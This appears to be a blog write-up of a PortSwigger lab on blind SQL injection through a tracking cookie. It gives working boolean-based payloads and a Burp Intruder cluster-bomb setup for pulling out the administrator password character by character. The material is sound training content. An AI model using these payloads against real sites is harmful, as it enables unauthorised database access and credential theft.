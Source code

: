 ```yaml
---
title: PortSwigger - SQLi 11 - Blind SQLi with conditional responses
date: 2023-05-17
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli, blind, clusterbomb]
img_path: /assets/img/
---
```


Difficulty: `Practitioner`

## 🎯 Goal

This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "**Welcome back**" message in the page if the query returns any rows.

The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

First, let's capture the request into Burp to see what it looks like:

````http
GET / HTTP/2
Host: <host>
Cookie: TrackingId=inef9UVjAF4GJLdj; session=86UdOy9CSRpdDtjDrCqiziIuKdAog6uR
Cache-Control: max-age=0
[...]
````

We know the query behind the ``TrackingId`` is vulnerable to blind SQLi and a ``Welcome back`` message is displayed when the query returns ``true``.

We can test this behaviour with a basic test:

````s
TrackingId=inef9UVjAF4GJLdj' AND '1'='1;    # Welcome back
TrackingId=inef9UVjAF4GJLdj' AND '1'='2;    # Nothing
````

Let's be sure there is a `users` table:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users LIMIT 1)='a     # Welcolme back
````

Let's be sure there is an `administrator` user:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator')='a      # Welcolme back
````

Before guessing the password we have to find its length. I could automate it but usually password aren't that long :(

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a     # Welcome back: password length > 1 char
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a    # Welcome back: password length > 10 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a    # Nothing: password length <= 20 chars
````

Ok so password is between 10 and 20 chars. Let's try one by one now.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a    # Welcome back: password length = 20 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=19)='a    # Nothing: password length != 19 chars
````

The password is ``20`` characters long.

Now time to guess the password. Two possibilities:

- Manually checking every characters at every position (boring)
- Automate with Burp Intruder to send hundreds of requests for us (cool)

Even if we should always automate everything as much as we can I will still present the manual way to show how it is working.

### 1. Manual password guessing

We will have to test one by one every character possible for every position. It's written the password only includes lowercase alphanumeric characters ([a-z][0-9]) and there are 20 positions (the password length) so it's a total of ``36 * 20 = 720`` posibilities...

Because it is too much to do manually I will only explain the principle behind: test every character for every position.

This query uses the ``SUBSTRING()`` function to extract a single character from the password, and test it against a specific value, here `a` at the position `1`. and `9` at the position `20`.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a      # First request
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='9     # Last request
````

Assuming I successfully sent the 720 requests without errors I should have found the password.

### 2. Automate password guessing

I have the Burp Suite Community Edition so I have some feature and throttle limitation but it's doing the work good.

First we have to send the request to the ``Intruder`` with ``ctrl+i``.

In the ``Positions`` tab select ``Cluster bomb``.

The payload positions will be the password character position and the character to test, as the following:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
````

In the Payloads tab:

- payload set 1 will be ``Numbers``
  - from ``1``
  - to ``20``
  - step of ``1``
- payload set 2 will be ``Brute forcer``
  - character set `abcdefghijklmnopqrstuvwxyz0123456789`
  - min length ``1``
  - max length ``1``

When everything is correctly set we can start the attack. Because the CE edition has a request rate limit of 1 per second it took 10+ minutes to end.

We can sort the result responses on their length because the responses with the Welcolme back message will be longuer than those without.

![attack responses](/psa/sqli/psa-sqli-11-1.png){: width="830" height="560" }
_Burp Cluster bomb attack results_

We obtain a table like below revealing the password!

|   1   |   2   |    3 |   4   |   5   |   6   |   7   |   8   |   9   |  10   |  11   |  12   |  13   |  14   |  15   |  16   |  17   |  18   |  19   |  20   |
| :---: | :---: | ---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|   5   |   k   |    y |   j   |   d   |   q   |   4   |   y   |   a   |   q   |   6   |   0   |   q   |   j   |   6   |   6   |   6   |   7   |   4   |   1   |

We can now log in as the ``administrator`` user using the password ``5kyjdq4yaq60qj666741``.
